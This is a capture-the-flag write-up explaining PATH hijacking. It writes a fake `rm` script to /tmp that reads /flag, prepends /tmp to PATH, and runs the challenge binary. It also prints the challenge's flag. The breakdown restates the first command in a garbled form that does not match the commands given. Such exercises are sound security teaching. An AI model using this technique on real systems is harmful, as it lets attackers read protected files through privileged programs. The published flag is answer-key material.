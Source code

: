 ### Hijacking Commands 

Armed with your knowledge, you can now carry out some shenanigans. This challenge is almost the same as the first challenge in this module. Again, this challenge will delete the flag using the `rm` command. But unlike before, it will _not_ print anything out for you.

How can you solve this? You know that `rm` is searched for in the directories listed in the `PATH` variable. You have experience creating the `win` command when the previous challenge needed it. What else can you create?

**flag:** `pwn.college{YzDL75kWzJOTS8gE3AOQBjkSqbF.QX3cjM1wyNwkzNyEzW}`

Command used: 

`echo "#!/bin/bash" >> /tmp/rm`

`echo "cat /flag" >> /tmp/rm`

`chmod +x /tmp/rm`

`export PATH="/tmp:$PATH"`

`/challenge/run`

Breakdown: 
- `echo "!#/bin/bash\ncat /flag >> /tmp/rm` -> writes output of echo to the file `/tmp/rm`
- `chmod +x /tmp/rm`  -> Made the file executable 
- `export PATH="/tmp:$PATH"` -> Wrote to PATH 
- Ran `/challenge/run` to get the flag


